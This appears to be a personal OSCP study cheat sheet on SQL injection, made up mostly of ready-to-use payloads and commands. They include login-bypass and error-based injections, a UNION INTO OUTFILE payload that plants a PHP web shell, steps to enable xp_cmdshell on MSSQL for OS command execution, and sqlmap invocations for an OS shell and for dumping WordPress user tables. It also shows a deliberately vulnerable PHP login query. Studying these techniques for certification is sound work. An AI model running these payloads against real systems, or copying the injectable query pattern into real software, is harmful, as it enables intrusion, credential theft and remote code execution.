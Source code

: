## Basic SQL Reminders

### For OSCp

 - mysql
 - sqlserver

MySql

Connecting:

mysql -u <username> -p <password> -h <host ip> -p <port> 
	
Important Functions etc
 - version : shows running version
 - select system_user() : returns current user name and host names
 - show databases;
 - select user, authentication_string FROM mysql.user WHERE user = '';
 
 
SQL Server
 
Connecting:
 	impacket-mssqlclient <username>:<password>@<ip of box> -windows-auth

Important Functions etc
 - select @@version
 - select name FROM sys.databases
 - select * from offsec.infromation_schema.tables
 - select * fro offsec.dbo.users

 #### id'ing sqli
 <?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name = '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>

offsec' OR 1=1 -- //
' OR 1=1 in (select @@version) -- //

### Determining the type of database

|Type of db| method|
|----------|------|
|MySQL|SELECT @@version|
|SQLite|SELECT sqlite_version()|
|Microsoft|SELECT @@version|
|PostgreSQL|SELECT version()|
|Oracle|SELECT banner FROM v$version, SELECT version FROM v$instance|

### Commenting in SQL

|syntax|mysql|ms sql|oracle|notes|
|------|-----|------|------|-----|
| --   | yes | yes  | yes  | The double dash is used to comment the rest of the line. My MySQL however this operator myst be followed by at least one white space or control character|
| #    | yes | no   | no   | The nuber sign allos commenting the rest of the line in MySQL. Contrary to the double dash, it is not necessary to add whitespace after|
| /* */| yes | yes  | yes  |     |


### Generic

Using the mysql command, we'll connect to the remote SQL instance by specifying root as username and password, along with the default MySQL server port 3306.
> mysql -u root -p'root' -h 192.168.50.16 -P 3306

We can run impacket-mssqlclient to connect to the remote Windows machine running MSSQL by providing a username, a password, and the remote IP, together with the -windows-auth keyword. 
> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

Basic escape chars to try
```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```

Comments for diff dbs
```
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
````


https://medium.com/@harrmahar/escalating-time-based-sql-injection-to-rce-using-xp-cmdshell-1b724b8e3c90

## error-based payload
```
' or 1=1 in (select @@version) -- //
```

## manual sqli via error-based payloads

```
uid=' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //&password=test
```

## find num of columns
```
' ORDER BY 10-- //
```

## union select to create a webshell
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

## connecting via impacket-mssqlclient
note: my install is wonky and need to run it as mssqlclient.py Administrator:Lab123@192.168.206.18 -windows-auth
```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```
we can now excute windows shell commands



## using sqlmap with -r
```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```
where post.txt contains the post request from burp

```
sqlmap -r wp.req -p 'question_id' -D wordpress -T wp_users --dump --technique=T --flush-session
```

GET /wp-admin/admin-ajax.php?action=get_question&question_id=1* HTTP/1.1
Host: alvida-eatery.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1



# time delay

```
'; IF (1=1) WAITFOR DELAY '0:0:10';-- 
```